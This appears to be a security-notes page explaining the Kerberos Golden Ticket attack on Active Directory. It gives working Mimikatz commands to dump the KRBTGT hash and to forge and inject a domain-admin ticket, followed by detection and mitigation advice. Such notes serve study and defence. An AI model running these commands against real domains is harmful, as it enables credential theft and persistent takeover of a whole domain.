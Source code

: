 +++
title = "Golden Ticket"
author = ["svejk"]
tags = ["activeDirectory", "kerberos"]
draft = false
+++

## Golden Ticket {#golden-ticket}

A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) created using the KRBTGT account’s NTLM hash. Once created, it can be used to impersonate any user in the domain, including domain admins, and grants unlimited access to services in the domain.


### Overview {#overview}

-   Forged TGT signed with the KRBTGT hash
-   Bypasses domain authentication controls
-   Can impersonate any user in the domain


### Prerequisites {#prerequisites}

-   SYSTEM or Domain Admin privileges on a domain-joined machine
-   Access to the NTLM hash of the KRBTGT account
-   Knowledge of:
    -   Domain SID
    -   Domain name
    -   (Optional) actual usernames


### Key Concepts {#key-concepts}

-   **KRBTGT account**: Used by KDC to sign/encrypt TGTs
-   **SID**: Used to tie forged ticket to domain
-   **TGT**: Ticket Granting Ticket (used to request service tickets)


### Mimikatz Commands {#mimikatz-commands}


#### Dump KRBTGT Hash {#dump-krbtgt-hash}

```powershell
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

Look for:
Hash NTLM: a2c0b1f65a098dc5b3e3479e9d88cb5e


#### Get Domain SID {#get-domain-sid}

```powershell
whoami /user
```

Use everything before the last \`-\` as the domain SID:
S-1-5-21-1234567890-2345678901-345678901


#### Create and Inject Golden Ticket {#create-and-inject-golden-ticket}

```powershell
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-1234567890-2345678901-3456789012 /krbtgt:a2c0b1f65a098dc5b3e3479e9d88cb5e /id:500 /groups:512,513,518,519 /ptt
```

Explanation:

-   \`/user\`: Target username (can be fake)
-   \`/domain\`: Target domain
-   \`/sid\`: Domain SID
-   \`/krbtgt\`: Hash from lsadump
-   \`/id=500\`: RID of user (500 = built-in Administrator)
-   \`/groups\`: Common group SIDs:
    -   512 – Domain Admins
    -   513 – Domain Users
    -   518 – Schema Admins
    -   519 – Enterprise Admins
-   \`/ptt\`: Pass-the-ticket (inject directly into memory)


#### Validate Ticket {#validate-ticket}

```powershell
whoami
whoami /groups
klist
```


### Impact {#impact}

-   TGTs can be valid for years (custom expiration)
-   Allows full domain persistence and stealthy lateral movement
-   Tickets are trusted by all Kerberos-enabled services


### Detection {#detection}

-   Look for TGTs without preceding AS-REQ (Event ID 4768 missing)
-   Unusual ticket lifetimes (e.g. 10-year validity)
-   Logins from accounts that don’t exist
-   Event ID 4769 anomalies


### Mitigation {#mitigation}

-   Reset KRBTGT password twice
-   Rotate domain admin credentials regularly
-   Monitor use of high-privilege accounts
-   Implement tiered access (admin tiers)
-   Use Protected Users group and managed service accounts


### References {#references}

-   <https://adsecurity.org/?p=1515>
-   <https://www.harmj0y.net/blog/redteaming/kerberos-attacks-part-1/>
-   <https://learn.microsoft.com/en-us/windows-server/security/kerberos/golden-ticket>
